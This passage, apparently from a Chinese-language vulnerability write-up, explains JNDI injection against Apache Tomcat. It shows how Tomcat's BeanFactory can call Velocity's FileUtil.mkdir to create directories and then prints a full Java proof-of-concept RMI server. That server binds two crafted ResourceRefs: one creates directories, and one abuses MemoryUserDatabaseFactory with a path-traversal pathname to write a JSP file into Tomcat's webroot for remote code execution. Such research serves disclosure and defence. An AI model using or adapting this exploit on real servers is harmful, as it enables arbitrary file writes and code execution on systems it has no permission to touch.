 由于  
BeanFactory位于同一个库中，因此我们可以在 Java bean 上调用任何单个字符串参数方法。我在 Apache Velocity 库中找到了这样一个 bean 类，它允许创建任意目录：  
org.apache.velocity.texen.util.FileUtil  
```
/*    */ public class FileUtil
/*    */ {
/*    */   public static String mkdir(String s) {
/*    */     try {
/* 43 */       if ((new File(s)).mkdirs()) {
/* 44 */         return "Created dir: " + s;
/*    */       }
/* 46 */       return "Failed to create dir or dir already exists: " + s;
/*    */     }
/* 48 */     catch (Exception e) {
/*    */       
/* 50 */       return e.toString();
/*    */     } 
/*    */   }
```  
  
当然，攻击者可以使用任何其他方法来创建任意目录或可能包含类似 bean 的任何其他库。  
  
概念验证  
  
两个对象与 RMI 服务器绑定。第一个对象将创建所需的目录路径，第二个对象将路径引导到攻击者想要放置文件的位置。在实际攻击中，这些路径需要进行调整。  
```
package com.src.incite.jndi;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import javax.naming.StringRefAddr;
import org.apache.naming.ResourceRef;
import com.sun.jndi.rmi.registry.*;

public class ObjectFactoryServer {
    public static void main(String[] args) throws Exception {
        System.out.println("(+) creating RMI registry on port 1099");
        Registry registry = LocateRegistry.createRegistry(1099);
        // for folder creation
        ResourceRef ref1 = new ResourceRef("org.apache.velocity.texen.util.FileUtil", null, "", "", true, "org.apache.naming.factory.BeanFactory",null);
        ref1.add(new StringRefAddr("forceString", "x=mkdir"));
        ref1.add(new StringRefAddr("x", "http:/127.0.0.1:1337/"));

        // for a file write
        ResourceRef ref2 = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "", true, "org.apache.catalina.users.MemoryUserDatabaseFactory",null);
        ref2.add(new StringRefAddr("readonly", "false"));
        ref2.add(new StringRefAddr("pathname", "http://127.0.0.1:1337/../../../../some/path/to/apache-tomcat-9.0.65/webapps/ROOT/poc.jsp"));

        registry.bind("Dir", new ReferenceWrapper(ref1));
        registry.bind("Rce", new ReferenceWrapper(ref2));
    }
}
```  
  